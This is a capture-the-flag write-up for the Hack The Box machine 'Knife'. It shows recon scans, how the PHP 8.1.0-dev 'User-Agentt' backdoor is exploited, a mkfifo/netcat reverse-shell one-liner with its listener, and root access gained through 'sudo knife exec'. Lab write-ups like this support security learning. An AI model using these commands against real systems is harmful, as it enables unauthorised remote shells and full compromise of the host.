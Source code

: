 <b>
# Information Gathering
I started by pinging the box 4 times to ensure stable connection
`ping -c 4 10.10.10.242`
```
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=108 ms
64 bytes from 10.10.10.242: icmp_seq=2 ttl=63 time=109 ms
64 bytes from 10.10.10.242: icmp_seq=3 ttl=63 time=110 ms
64 bytes from 10.10.10.242: icmp_seq=4 ttl=63 time=109 ms
```
After confirming good connection i ran `nmap` with `-Pn` to skip testing if the target is alive and `-sVC` for version and additional information
`nmap -sVC -Pn 10.10.10.242`
```
Nmap scan report for 10.10.10.242
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
I also ran `whatweb` with `-a 3` for aggressive (comprehensive) information gathering about the website
`whatweb -a 3 10.10.10.242`
```
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
The website didn't appear to have any links or directories so i try dirbusting with `feroxbuster` but no use either
`feroxbuster -r -k -E -g -C 400,403,404 --auto-tune -u http://10.10.10.242/`
```
200      GET      220l      526w     5815c http://10.10.10.242/
[####################] - 68s    30002/30002   0s      found:1       errors:0      
[####################] - 67s    30000/30000   447/s   http://10.10.10.242/ 
```
I try `dirsearch` just to be sure but no luck either
`dirsearch -F --crawl -u http://10.10.10.242/`
```
[12:10:02] 403 -  277B  - /.ht_wsr.txt                                      
[12:10:02] 403 -  277B  - /.htaccess.bak1                                   
[12:10:02] 403 -  277B  - /.htaccess.orig                                   
[12:10:02] 403 -  277B  - /.htaccess.sample                                 
[12:10:02] 403 -  277B  - /.htaccess.save
[12:10:02] 403 -  277B  - /.htaccess_extra                                  
[12:10:02] 403 -  277B  - /.htaccess_orig
[12:10:02] 403 -  277B  - /.htaccessBAK
[12:10:02] 403 -  277B  - /.htaccessOLD
[12:10:02] 403 -  277B  - /.htaccessOLD2
[12:10:02] 403 -  277B  - /.htaccess_sc
[12:10:02] 403 -  277B  - /.htm                                             
[12:10:02] 403 -  277B  - /.html
[12:10:02] 403 -  277B  - /.htpasswd_test                                   
[12:10:02] 403 -  277B  - /.htpasswds                                       
[12:10:02] 403 -  277B  - /.httr-oauth                                      
[12:10:44] 403 -  277B  - /server-status                                    
[12:10:44] 403 -  277B  - /server-status/ 
```
# Vulnerability Assessment
The server was running `Apache 2.4.41` and using `PHP 8.1.0-dev`
Looking up `php 8.1.0 exploit` leads to this:
https://www.exploit-db.com/exploits/49933

The cause of the exploit was an early realease which contained a backdoor
The backdoor was removed but any server that still runs this version allows an attacker to execute arbitrary code by sending the `User-Agentt` header
# Exploitation
Running the exploit, it asked for full URL: `http://10.10.10.242/`
After that it spawned `pseudo shell`
# Post-Exploitation
The job control is turned off so i couldn't spawn interactive shell no matter what i tried:
`/bin/sh -i`
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`perl —e 'exec "/bin/sh";'`

In that case, i opened `netcat` listner on port 4444 and executed reverse shell on the `pseudo shell`
`nc -lvnp 4444` (listener)
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f` (reverse shell)

Having reverse shell from `nc`, i upgraded to `interactive shell`
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

There was only 1 directory inside `/home` called `james` (which is who we are - `whoami`), the user flag can be found inside `/home/james/user.txt`
After that i started checking common things but the exploits for them didn't work
- `sudo --version` (sudo version)
- `uname -a` (system information)

Running `sudo -l` to see what i can run as sudo led to this
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Looking up `usr/bin/knife exploit` gave me this
https://gtfobins.github.io/gtfobins/knife/

Running the `sudo knife exec -E 'exec "/bin/sh"'` allowed me to become root
The flag was located at `/root/root.txt`
</b>
